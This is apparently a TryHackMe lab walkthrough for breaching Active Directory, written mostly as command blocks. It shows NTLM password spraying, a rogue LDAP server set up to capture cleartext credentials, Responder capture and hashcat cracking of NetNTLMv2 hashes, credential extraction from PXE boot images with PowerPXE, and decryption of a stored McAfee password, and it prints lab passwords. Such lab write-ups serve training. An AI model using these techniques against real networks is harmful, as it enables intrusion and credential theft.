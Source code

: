 # Breaching Active Directory

**Room Link:** [https://tryhackme.com/room/breachingad](https://tryhackme.com/room/breachingad)



## Introduction to AD Breaches

**Kali**

```
systemd-resolve --interface breachad --set-dns $THMDCIP --set-domain za.tryhackme.com
nslookup thmdc.za.tryhackme.com
```

## NTLM Authenticated Services

**Kali**

```
unzip passwordsprayer.zip 
python /root/Rooms/BreachingAD/task3/ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a "http://ntlmauth.za.tryhackme.com"
```

<figure><img src="../../.gitbook/assets/image (15) (8).png" alt=""><figcaption></figcaption></figure>

## LDAP Bind Credentials

**Kali**

```
service slapd stop
nc -lvp 389
```

<figure><img src="../../.gitbook/assets/image (9) (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (10).png" alt=""><figcaption></figcaption></figure>

### Hosting a Rogue LDAP Server

**Kali**

```
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
sudo dpkg-reconfigure -p low slapd
```

<figure><img src="../../.gitbook/assets/image (13) (1) (4) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
vi olcSaslSecProps.ldif
```



**olcSaslSecProps.ldif**

```
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

The file has the following properties:

* olcSaslSecProps: Specifies the SASL security properties
* noanonymous: Disables mechanisms that support anonymous login
* minssf: Specifies the minimum acceptable security strength with 0, meaning no protection.

Now we can use the ldif file to patch our LDAP server using the following:

**Kali**

```
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```

**Before**

<figure><img src="../../.gitbook/assets/image (12) (10).png" alt=""><figcaption></figcaption></figure>

**After**

<figure><img src="../../.gitbook/assets/image (11) (1) (3).png" alt=""><figcaption></figcaption></figure>

### Capturing LDAP Credentials

Our rogue LDAP server has now been configured. When we click the "Test Settings" at [http://printer.za.tryhackme.com/settings.aspx](http://printer.za.tryhackme.com/settings.aspx), the authentication will occur in clear text. If you configured your rogue LDAP server correctly and it is downgrading the communication, you will receive the following error: "This distinguished name contains invalid syntax". If you receive this error, you can use a tcpdump to capture the credentials using the following command:



<figure><img src="../../.gitbook/assets/image (6) (5) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sudo tcpdump -SX -i breachad tcp port 389
```

<figure><img src="../../.gitbook/assets/image (1) (1) (2) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (9).png" alt=""><figcaption></figcaption></figure>



## Authentication Relays

**Kali**

```
sudo service slapd stop
sudo responder -I breachad
```

<figure><img src="../../.gitbook/assets/image (7) (5) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (9) (2) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hashcat -m 5600 hash.txt passwordlist.txt --force 
hashcat -m 5600 hash.txt passwordlist.txt --force --show
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

## Microsoft Deployment Toolkit

**Kali**

```
ssh thm@THMJMP1.za.tryhackme.com
Password: Password1@
```

**Victim**

```
cd Documents
mkdir thm
copy C:\powerpxe thm
cd thm
```

**Victim**

```
tftp -i $THMMDTIP GET "\Tmp\x64{39...28}.bcd" conf.bcd
```

**Victim**

```
powershell -executionpolicy bypass
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile
```

**Victim**

```
tftp -i $THMMDTIP  GET "<PXE Boot Image Location>" pxeboot.wim
```

**Victim**

```
Get-FindCredentials -WimFile pxeboot.wim
```

## Configuration Files

**Victim**

```
cd C:\ProgramData\McAfee\Agent\DB
```

**Victim**

```
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
Password: Password1@
```

**Kali**

```
sqlitebrowser ma.db
```

**Kali**

```
cp /root/Rooms/BreachingAD/task7/mcafeesitelistpwddecryption.zip .
unzip mcafeesitelistpwddecryption.zip
```

<figure><img src="../../.gitbook/assets/image (4) (1) (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python2 mcafee-sitelist-pwd-decryption-master/mcafee_sitelist_pwd_decrypt.py  jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
```

<figure><img src="../../.gitbook/assets/image (18) (7).png" alt=""><figcaption></figcaption></figure>
